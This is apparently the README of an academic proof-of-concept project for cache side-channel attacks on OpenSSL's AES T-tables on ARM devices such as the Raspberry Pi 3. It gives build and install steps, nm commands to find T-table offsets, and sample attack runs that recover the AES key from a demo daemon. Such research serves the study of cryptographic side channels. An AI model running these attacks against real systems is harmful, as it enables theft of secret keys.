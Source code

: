 # side-channel-attack

side-channel-attack

# Contents
1. [How to build - armv7](#1-how-to-build---armv7)
2. [How to build - armv8](#2-how-to-build---armv8)
3. [How to install to your device](#3-how-to-install-to-your-device)
4. [How to run one-round-attack - rpi3 (armv8)](#4-how-to-run-one-round-attack---rpi3-armv8)
5. [How to run last-round-attack - rpi3 (armv8)](#5-how-to-run-last-round-attack---rpi3-armv8)
6. [Supported attack for each arch](#6-supported-attack-for-each-arch)

# 1. How to build - armv7

* Build all
    ```
	$ vim build_armv7.sh  ==> apply your cross compiler to SCA_CROSS_COMPILER
    $ ./build_armv7.sh
    ```

# 2. How to build - armv8

* Build all
    ```
	$ vim build_armv8.sh  ==> apply your cross compiler to SCA_CROSS_COMPILER
    $ ./build_armv8.sh
    ```

# 3. How to install to your device

* Copy and install shared library
    ```
    $ cp -f build/lib/libcrypto.so.[version] usb/   ==> on your host
    
    $ cp -f usb/libcrypto.so.[version] /usr/lib/   ==> on target device
	==> libcrypto.so.0.9.8 for armv7, libcrypto.so.1.0.0 for armv8
    ```

* Copy and install attack binaries
    ```
    $ cp -f build/cache-attack/one-round-attack/real-security-daemon/* usb/  ==> on your host
    
    $ cp -f usb/* /usr/bin/  ==> on target device.
    ```

# 4. How to run one-round-attack - rpi3 (armv8)

* Get T-table address from openssl library (on your host)
	```
	$ nm libcrypto.so.1.0.0 | grep Te0
	  0000000000170090 r Te0
	$ nm libcrypto.so.1.0.0 | grep Te1
	  000000000016fc90 r Te1
	==> repeat for Te2, Te3..
	```

* Run one-round-attack on rpi3
	```
	$ ./security_daemon &
	  root@RPi3:/aes security_daemon is running...
	  real key : a2981898c47187538cde1709dbd9ab40
	$ ./attacker
	  USAGE : ./attacker <limit plain text count> <repeat count for a plaintext> <cpu cycle threshold> <offset te0> <offset te1> <offset te2> <offset te3>
	  EXAMPLE : ./attacker 1000 1 200 0010dca8 0010e0a8 0010e4a8 0010d8a8
	$ ./attacker 500 1 200 00170090 0016fc90 00170890 00170490
	  security_daemon_connect success
	  plain_text_cnt : 500
	  calculating all subsets...
	  progress : 4096 / 2048000
	  progress : 8192 / 2048000
	  .......
	  ....... 
	  predict key : a0901090c070805080d01000d0d0a040
	  Recover [64] bits success!!   ====>  It's result of attack!!!
	  security_daemon is closing...
	  [1]+  Done                       ./security_daemon
	```

# 5. How to run last-round-attack - rpi3 (armv8)

* Get T-table, rcon address from openssl library (on your host)
	```
	$ nm libcrypto.so.1.0.0 | grep Te0
	  0000000000170090 r Te0
	==> repeat for Te1, Te2, Te3, rcon
	```

* Run last-round-attack on rpi3
	```
	$ ./security_daemon &
	  root@RPi3:/aes security_daemon is running...
	  real key : a2981898c47187538cde1709dbd9ab40
	$ ./attacker
	  USAGE : ./attacker <limit plain text count> <cpu cycle threshold> <offset te0> <offset te1> <offset te2> <offset te3> <offset rcon>
	  EXAMPLE : ./attacker 1000 200 0010c0b8 0010c4b8 0010c4c8 0010c4d8 0010c4e8
	$ ./attacker 500 200 00170090 0016fc90 00170890 00170490 00170c90
	  progress : 0 / 500
	  progress : 20 / 500
	  ......
	  ......
	  progress : 480 / 500
	  predict last round key : 9886c881cad8676e0f01eb4a30df89f5  ==> finish to get last round key
	  invert round key!!  ==> try to invert from last round key to real key (0 round key)
	  first key : a2981898c47187538cde1709dbd9ab40
	  predict key : a2981898c47187538cde1709dbd9ab40
	  ......
	  real key : a2981898c47187538cde1709dbd9ab40
	  predict key : a2981898c47187538cde1709dbd9ab40
	  Recover [16] byte success!! ==> It's result of attack!!
	```

# 6. Supported attack for each arch

* one-round-attack is enable on both armv7 and armv8.
* last-round-attack is enable on both armv7 and armv8.

# License

* © 2017 Jinbum Park
* jinb.park@samsung.com
* © 2017 Haehyun Cho
* hcho67@asu.edu


